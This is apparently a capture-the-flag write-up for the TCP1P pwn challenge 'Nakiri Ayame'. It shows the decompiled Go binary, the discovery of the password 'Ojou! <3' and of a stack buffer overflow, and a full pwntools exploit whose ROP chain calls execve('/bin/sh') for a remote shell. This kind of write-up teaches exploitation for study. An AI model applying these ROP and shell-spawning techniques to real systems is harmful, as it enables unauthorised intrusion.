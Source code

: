 ## Nakiri Ayame 🩸

```
Author: HyggeHalcyon

Ayame cute noises (✿╹◡╹) https://www.youtube.com/watch?v=XsdQguLgvFc https://www.youtube.com/watch?v=NPMhb_mIIhU

nc ctf.tcp1p.com 6666
```
**Attachment**: [ojou](release/ojou)

We were given an ELF binary. Here's some information about this binary.
![File Information 1](images/a7999030daeddf0e862a6ff81960d03108bbaa7db425fc0d68f253ca44302b3e.png)  


Let's take a look what does this program do
<details close><summary>Decompiled Binary</summary>
    
```c
void __cdecl main_main()
{
  int v0; // r14
  __int128 v1; // xmm15
  int v2; // rax
  int v3; // rax
  char v4; // al
  int v5; // rbx
  int v6; // rax
  int v7; // rax
  int v8; // rdx
  int *v9; // r11
  int v10; // rbx
  int v11; // rax
  int v12; // rax
  int v13; // rdx
  int *v14; // r11
  bufio_Scanner_0 *v15; // [rsp-36h] [rbp-1B8h]
  __int64 v16; // [rsp-36h] [rbp-1B8h]
  __int64 v17; // [rsp-36h] [rbp-1B8h]
  bool v18; // [rsp-36h] [rbp-1B8h]
  string v19; // [rsp-36h] [rbp-1B8h]
  uintptr v20; // [rsp-36h] [rbp-1B8h]
  _BYTE v21[64]; // [rsp-36h] [rbp-1B8h] OVERLAPPED
  uintptr v22; // [rsp-36h] [rbp-1B8h]
  string v23; // [rsp-36h] [rbp-1B8h]
  void *v24; // [rsp-36h] [rbp-1B8h]
  __int64 v25; // [rsp-36h] [rbp-1B8h]
  io_Reader_0 v26; // [rsp-2Eh] [rbp-1B0h]
  error_0 v27; // [rsp-2Eh] [rbp-1B0h]
  error_0 v28; // [rsp-2Eh] [rbp-1B0h]
  bufio_Scanner_0 *v29; // [rsp-2Eh] [rbp-1B0h]
  __int64 v30; // [rsp-2Eh] [rbp-1B0h]
  __int64 v31; // [rsp-2Eh] [rbp-1B0h]
  string v32; // [rsp-2Eh] [rbp-1B0h]
  error_0 v33; // [rsp-2Eh] [rbp-1B0h]
  bufio_Scanner_0 *v34; // [rsp-26h] [rbp-1A8h]
  uintptr v35; // [rsp-26h] [rbp-1A8h]
  uintptr v36; // [rsp-26h] [rbp-1A8h]
  runtime_tmpBuf *v37; // [rsp-26h] [rbp-1A8h]
  string v38; // [rsp-1Eh] [rbp-1A0h]
  string v39; // [rsp-1Eh] [rbp-1A0h]
  __int64 v40; // [rsp-1Eh] [rbp-1A0h]
  string v41; // [rsp-1Eh] [rbp-1A0h]
  __uint8 v42; // [rsp-16h] [rbp-198h]
  uint8 *v43; // [rsp-16h] [rbp-198h]
  __interface_{} v44; // [rsp-Eh] [rbp-190h]
  __interface_{} v45; // [rsp-Eh] [rbp-190h]
  __interface_{} v46; // [rsp-Eh] [rbp-190h]
  int v47[2]; // [rsp+22h] [rbp-160h] BYREF
  char v48[10]; // [rsp+38h] [rbp-14Ah] BYREF
  int v49; // [rsp+42h] [rbp-140h]
  int v50[2]; // [rsp+4Ah] [rbp-138h] BYREF
  __int128 *v51; // [rsp+5Ah] [rbp-128h]
  int v52; // [rsp+62h] [rbp-120h]
  __int128 *v53; // [rsp+6Ah] [rbp-118h]
  __int128 *v54; // [rsp+72h] [rbp-110h]
  __int128 *v55; // [rsp+7Ah] [rbp-108h]
  __int128 *v56; // [rsp+82h] [rbp-100h]
  int *v57; // [rsp+8Ah] [rbp-F8h]
  int v58; // [rsp+92h] [rbp-F0h]
  int v59; // [rsp+9Ah] [rbp-E8h]
  __int128 v60; // [rsp+A2h] [rbp-E0h] BYREF
  int v61; // [rsp+B2h] [rbp-D0h]
  int v62; // [rsp+BAh] [rbp-C8h]
  int v63; // [rsp+C2h] [rbp-C0h]
  int v64; // [rsp+CAh] [rbp-B8h]
  char *v65; // [rsp+D2h] [rbp-B0h]
  int v66; // [rsp+DAh] [rbp-A8h]
  int v67; // [rsp+E2h] [rbp-A0h]
  int *v68; // [rsp+EAh] [rbp-98h]
  int v69; // [rsp+F2h] [rbp-90h]
  int v70; // [rsp+FAh] [rbp-88h]
  __int128 *v71; // [rsp+102h] [rbp-80h]
  int v72; // [rsp+10Ah] [rbp-78h]
  int v73; // [rsp+112h] [rbp-70h]
  __int128 *v74; // [rsp+11Ah] [rbp-68h]
  int v75; // [rsp+122h] [rbp-60h]
  int v76; // [rsp+12Ah] [rbp-58h]
  __int128 *v77; // [rsp+132h] [rbp-50h]
  int v78; // [rsp+13Ah] [rbp-48h]
  int v79; // [rsp+142h] [rbp-40h]
  __int128 *v80; // [rsp+14Ah] [rbp-38h]
  int v81; // [rsp+152h] [rbp-30h]
  int v82; // [rsp+15Ah] [rbp-28h]
  __int128 *v83; // [rsp+162h] [rbp-20h]
  int v84; // [rsp+16Ah] [rbp-18h]
  int v85; // [rsp+172h] [rbp-10h]

  if ( (unsigned int)v50 <= *(_QWORD *)(v0 + 16LL) )
    runtime_morestack_noctxt();
  memset(v48, 0LL, sizeof(v48));
  v65 = v48;
  v66 = 10LL;
  v67 = 10LL;
  bufio_NewScanner(v15, v26);
  v49 = v2;
  fmt_Printf(v16, v27, v38, v44);
  fmt_Printf(v17, v28, v39, v45);
  bufio___Scanner__Scan(v18, v29);
  bufio___Scanner__Text(v19, v34);
  v58 = v3;
  v59 = 3LL;
  *(_QWORD *)&v21[56LL] = v65;
  v47[1LL] = v3;
  main_memcpy(v20, v30, v35);
  v57 = v47;
  v47[0LL] = '3< !uojO';
  v68 = v47;
  v69 = 8LL;
  v70 = 8LL;
  main_equal(v21[0LL], *(__uint8 *)&v21[8LL], v42);
  v21[55LL] = v4;
  if ( v4 )
  {
    v56 = &v60;
    *(_QWORD *)&v60 = &unk_485D00;
    *((_QWORD *)&v60 + 1LL) = &off_4B6A90;
    v83 = &v60;
    v84 = 1LL;
    v85 = 1LL;
    fmt_Println(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(__interface_{} *)&v21[24LL]);
    v50[0LL] = (int)&main_binsh;
    v55 = &v60;
    *(_QWORD *)&v60 = "\b";
    *((_QWORD *)&v60 + 1LL) = &main_binsh;
    v80 = &v60;
    v81 = 1LL;
    v82 = 1LL;
    fmt_Printf(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(string *)&v21[24LL], *(__interface_{} *)&v21[40LL]);
    main_memcpy(v22, v31, v36);
    v60 = v1;
    v51 = &v60;
    v5 = (int)v65;
    runtime_slicebytetostring(v23, v37, v40, v43);
    v61 = v6;
    v62 = v5;
    runtime_convTstring(v24, v32);
    v50[1LL] = v7;
    v8 = (int)v51;
    *(_QWORD *)v51 = &unk_485D00;
    if ( *(_DWORD *)&runtime_writeBarrier.enabled )
    {
      runtime_gcWriteBarrier2();
      *v9 = v7;
      v9[1LL] = *(_QWORD *)(v8 + 8LL);
    }
    *(_QWORD *)(v8 + 8LL) = v7;
    v71 = v51;
    v72 = 1LL;
    v73 = 1LL;
    fmt_Printf(v25, v33, v41, v46);
  }
  else
  {
    v54 = &v60;
    *(_QWORD *)&v60 = &unk_485D00;
    *((_QWORD *)&v60 + 1LL) = &off_4B6AA0;
    v77 = &v60;
    v78 = 1LL;
    v79 = 1LL;
    fmt_Println(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(__interface_{} *)&v21[24LL]);
    v60 = v1;
    v53 = &v60;
    v10 = (int)v65;
    runtime_slicebytetostring(
      *(string *)v21,
      *(runtime_tmpBuf **)&v21[16LL],
      *(__int64 *)&v21[24LL],
      *(uint8 **)&v21[32LL]);
    v63 = v11;
    v64 = v10;
    runtime_convTstring(*(void **)v21, *(string *)&v21[8LL]);
    v52 = v12;
    v13 = (int)v53;
    *(_QWORD *)v53 = &unk_485D00;
    if ( *(_DWORD *)&runtime_writeBarrier.enabled )
    {
      runtime_gcWriteBarrier2();
      *v14 = v12;
      v14[1LL] = *(_QWORD *)(v13 + 8LL);
    }
    *(_QWORD *)(v13 + 8LL) = v12;
    v74 = v53;
    v75 = 1LL;
    v76 = 1LL;
    fmt_Printf(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(string *)&v21[24LL], *(__interface_{} *)&v21[40LL]);
  }
}
```
    
</details>

(Somehow, I can't run this binary on my Ubuntu environment. So, I worked on it with my Parrot VM.)

Based on the decompiled code, the program appears to have two branches. To further understand the program, I decided to conduct dynamic analysis. Here, I set a breakpoint when the program calls the function `main.equal()`. I entered the string "Vaints" as input, and when the program was about to call the function main.equal(), I saw the string "Ojou! \<3".
![Breakpoint main.equal](images/2cbc55aa116184fd6590eed3b7bdf9ed8b14d2b295c9deffed55538055494d55.png)  

From this, I assumed that this string was the "correct" one and tried inputting it into the program. As expected, this string produced a different result.
![Program Output](images/9613cc44f9bb5885920b78076fd567b5e642af081585a13ebf8b3f69c51e0ada.png)  

Then, I thought about exploiting a buffer overflow. Here, I prepared a De Bruijn sequence using cyclic. I placed this pattern right after the "Ojou! \<3" string. As expected, there was indeed a Buffer Overflow vulnerability, even though there was an error in the payload entered.
![Buffer Overflow Caused an Error](images/5328ecf0b9dbfb7b5565133a26756ba4b28ed0da427a908d1a26e183bfc2d4d7.png)  

After that, I looked deeper into which instruction was causing the program to crash and terminate. Until I found out, the program crashed when the program called the `runtime_slicebytetostring()` function at 0x47ddc2 address. 
![runtime_slicebytetostring Crash](images/9eb49330068bb21349c517b62551efb135c2e2472b55818cb286a7d6baa727f9.png)  

As can be seen, the previously entered cyclic pattern is used as the 4th argument to call the `runtime_slicebytetostring()` function. After that I modify my payload to change the 4th argument to 0 (NULL).
```py
p = b""
p += b"Ojou! <3"
p += cyclic(700).replace(p64(0x61706261616f6261), p64(0x0))
```

After rerun the program, the program successfully called the `runtime_slicebytetostring()` function. Once again, the program crashed. But this time, the program crashed because we managed to overwrite the saved RIP of the main function with the cyclic pattern that I've inputed before.
![Saved RIP Overwrited](images/d1dca8e9edd54880b69cfdc0ce0890d30354e868485ce9f17d7627eec4630d4b.png)  

The offset to overwrite the saved RIP was 330 byte (8 byte the length of "Ojou! \<3" + 322 byte from the cyclic). After that, I searched for gadgets that I could use to call a shell. Here are some of the gadgets I used to obtain a shell:
```python
POP_RBX = 0x0000000000404541 # : pop rbx ; ret
POP_RDX = 0x0000000000479d7a # : pop rdx ; ret
POP_RAX_RBP = 0x00000000004723ca # : pop rax ; pop rbp ; ret
POP_RDI_LOAD_PTR_RAX = 0x00000000004726a4 # : pop rdi ; add al, byte ptr [rax] ; mov ebx, 0xb ; ret
MOV_QWORDPTR_RAX0x18_RBX = 0x0000000000415312 # : mov qword ptr [rax + 0x18], rbx ; ret
SYSCALL = 0x000000000040316c # : syscall
```

Here's my exploit to solve this challenge.
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/ojou"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 6666
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + f"""
            # set follow-fork-mode child
            file {TARGET}
            # b *0x47dae0+0x2b0
            # b *0x47dae0+738
            # b *0x47dae0+909
            b *0x47dae0+0x2e2
            b *0x47dae0+0x16f
            """
            gdb.attach(io, gdbscript=cmd)

    MAIN_ADDRESS = 0x47dae0
    # === Debug using this payload: b"Ojou! <3"+cyclic(512)
    RCX_OFFSET = cyclic_find(0x616f6261)
    RSI_OFFSET = cyclic_find(0x616d6261)
    # === Gadget
    BSS_ADDRESS = 0x524100
    POP_RBX = 0x0000000000404541 # : pop rbx ; ret
    POP_RDX = 0x0000000000479d7a # : pop rdx ; ret
    POP_RAX_RBP = 0x00000000004723ca # : pop rax ; pop rbp ; ret
    POP_RDI_LOAD_PTR_RAX = 0x00000000004726a4 # : pop rdi ; add al, byte ptr [rax] ; mov ebx, 0xb ; ret
    MOV_QWORDPTR_RAX0x18_RBX = 0x0000000000415312 # : mov qword ptr [rax + 0x18], rbx ; ret
    SYSCALL = 0x000000000040316c # : syscall

    RIP_OFFSET = cyclic_find(0x61676461)
    p = b""
    p += b"Ojou! <3"
    p += cyclic(RIP_OFFSET).replace(p64(0x61706261616f6261), p64(0x0))
    p += p64(POP_RAX_RBP)
    p += p64(BSS_ADDRESS-0x18)
    p += p64(0xdeadbeef)
    p += p64(POP_RBX)
    p += p64(u64(b"/bin/sh\x00"))
    p += p64(MOV_QWORDPTR_RAX0x18_RBX)

    p += p64(POP_RDI_LOAD_PTR_RAX) # rax is pointing to valid address
    p += p64(BSS_ADDRESS)

    p += p64(POP_RDX)
    p += p64(0)

    p += p64(POP_RAX_RBP)
    p += p64(0x3b)
    p += p64(0xdeadbeef)
    p += p64(SYSCALL) # sys_execve('/bin/sh', NULL, NULL)

    io.sendlineafter(b">", p)

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

![picture 6](images/0c4538019e75a507940e891785f2f477611fe56e295ca38bc649bf8a37c9828a.png)  
    
**Flag:** TCP1P{Ojou_sama_no_giggles_cuteness_overload_kawayoooooo!}
